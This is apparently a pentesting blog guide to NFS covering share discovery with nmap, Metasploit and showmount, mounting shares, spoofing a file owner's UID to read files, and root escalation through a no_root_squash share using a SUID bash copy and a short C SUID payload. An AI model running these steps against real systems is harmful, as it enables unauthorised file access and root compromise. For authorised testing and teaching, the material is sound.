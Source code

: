 ```yaml
---
title: NFS Pentesting Best Practices
categories: [pentesting protocols,nfs]
tags: [pentesting,nfs,best practicies]
comments: true
---
```


# NFS

> NFS usually uses ports 111, 2049
{: .prompt-tip }

# What is NFS?

NFS (Network FileSysem) is a very stable and powerful file system for sharing storage devices of UNIX/Linux operating systems. Thanks to NFS; The same files can be accessed from multiple computers. It provides convenience in data storage. Instead of installing to the local disk for each application, it allows applications to be shared.

```bash
PORT     STATE SERVICE               VERSION
2049/tcp open  nfs    
```

# NFS Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:2049 |

## Misconfigured NFS

A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.

### NFS Service Detection in Network with Nmap

```bash
nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs.png)

### Network NFS Service Detection with Metasploit

```bash
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run
```

![Untitled](/assets/img/pitcures/nfs/nfs1.png)

### NFS Shares Listing With "showmount"

```bash
showmount -e 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs2.png)

### Access to discovered NFS shares

```bash
mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.
```

### Access to discovered NFS shares with same user UID Permissions

In the terminal we can see the shared arguments and what UID value they belong to a user.

```bash
-rwxr----- 1923 1000 1898 example.doc
```

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let's unmount the mount we mounted with the unmount command. Then let's create a user with the same UID value in the local system.

```bash
umount /connect_path
```

Yes, we have unmounted. Now let's create a user with the same UID value.

```bash
useradd newuser
```

setting the user UID value

```bash
usermod -u 1923 newuser
```

Connecting the share to the local system again after setting the UID value.

```bash
mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path
```

## NFS no_root_squash/no_all_squash misconfiguration PE

Read the `/etc/exports`{: .filepath}  file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no_all_squash:** This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports`{: .filepath} file; no_all_squash option is present; check /etc/passwd`{: .filepath} file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

### Privilege Escalation

Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the `/bin/bash` binary and giving it SUID rights, and executing from the victim machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

**Mounting that directory** in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and execute from the victim machine that binary (you can find here some C SUID payloads).

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```
